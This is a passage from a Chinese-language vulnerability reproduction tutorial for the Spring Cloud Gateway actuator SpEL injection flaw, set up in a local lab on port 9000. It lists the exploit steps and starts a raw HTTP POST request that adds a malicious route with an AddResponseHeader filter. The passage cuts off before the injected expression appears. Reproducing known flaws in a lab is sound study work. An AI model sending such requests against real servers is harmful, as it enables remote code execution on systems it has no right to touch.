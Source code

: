 ```
能用9000端口访问说明部署成功。
```

![image-20241127131433870](CVE漏洞复现/image-20241127131433870.png)	

```
比如说这样就能使用监控组件去查看gateway接口信息。
```

![image-20241127131531500](CVE漏洞复现/image-20241127131531500.png)	

### 漏洞复现

```
该漏洞的主要步骤。
1、启动Spring Cloud Gateway服务
2、添加过滤器（POST）
3、刷新过滤器（POST）
4、访问过滤器ID（GET）
```

```
启动该靶场有两种方式，第一种就是使用idea部署，这里就采用第一种方式。
1、本地工程
2、vulhub-dockercompose启动
```

```
直接打开repeater复制payload发送。首先这个第一步是添加路由，这里添加的路由名称是hacktest,并设置路由id是wuyaaq,并在filters添加一个name,这个name是spring的关键词，即AddResponseHeader会把参数的内容添加到响应头中。而这个响应头部添加的内容是SPEL表达式，会被spring解析执行。

POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "wuyaaq",
  "filters": [{
```